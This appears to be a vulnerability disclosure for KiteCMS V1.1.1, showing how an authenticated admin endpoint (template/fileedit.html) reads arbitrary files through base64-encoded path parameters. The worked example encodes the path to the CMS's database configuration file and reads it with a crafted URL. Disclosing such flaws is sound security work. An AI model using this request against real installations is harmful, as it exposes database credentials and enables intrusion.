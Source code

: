 ## Arbitrary file reading vulnerability exists in background module management in KiteCMS-V1.1.1

Vulnerability Position：ip/index.php/admin/template/filelist.html

Log in to the backend：

Visit http://ip/index.php/admin/template/filelist.html ， Will access the page of the module

Click to edit，It jumps to another page ---> http://192.168.1.128/index.php/admin/template/fileedit.html?path=RDovcGhwU3R1ZHkvUEhQVHV0b3JpYWwvV1dXL3RoZW1lL2NvbXBhbnkvYmFzZS5odG1s&name=YmFzZS5odG1s

and we find that the path and name parameters are encrypted by base64 by reporting an error.

![image](https://user-images.githubusercontent.com/54017627/161426724-f2d9bda6-5a26-46f9-8f83-7e9980e22c74.png)

![image](https://user-images.githubusercontent.com/54017627/161426977-33532da0-36c1-4643-b051-f12014f420f5.png)

```
http://192.168.1.128/index.php/admin/template/fileedit.html?path=RDovcGhwU3R1ZHkvUEhQVHV0b3JpYWwvV1dXL3RoZW1lL2NvbXBhbnkvYmFzZS5odG1s&name=YmFzZS5odG1s
path=RDovcGhwU3R1ZHkvUEhQVHV0b3JpYWwvV1dXL3RoZW1lL2NvbXBhbnkvYmFzZS5odG1s---> D:/phpStudy/PHPTutorial/WWW/theme/company/base.html
name=YmFzZS5odG1s --->base.html
```

![image](https://user-images.githubusercontent.com/54017627/161426913-68ed20df-fd6d-48cd-8fe8-77f7b68b8adb.png)

![image](https://user-images.githubusercontent.com/54017627/161426891-5dc32924-3961-4640-b09f-f362e160528c.png)

We found the warehouse of the cms in github and inferred the local path of the database file configuration of the cms

The local path to the database file configuration of the cms: D:\phpStudy\PHPTutorial\WWW\config\database.php

We encode the path with base64 ---> RDpccGhwU3R1ZHlcUEhQVHV0b3JpYWxcV1dXXGNvbmZpZ1xkYXRhYmFzZS5waHA=

![image](https://user-images.githubusercontent.com/54017627/161427483-4628467a-6512-4dff-9898-47b7eba27494.png)

Then splice the transcoded path to the url: http://ip/index.php/admin/template/fileedit.html?path=RDpccGhwU3R1ZHlcUEhQVHV0b3JpYWxcV1dXXGNvbmZpZ1xkYXRhYmFzZS5waHA=&name=ZGF0YWJhc2UucGhw

Access found that the database configuration file of the cms was successfully read.

![image](https://user-images.githubusercontent.com/54017627/161427556-375d9ee3-f5e2-4ac4-8f86-0778b8567aed.png)
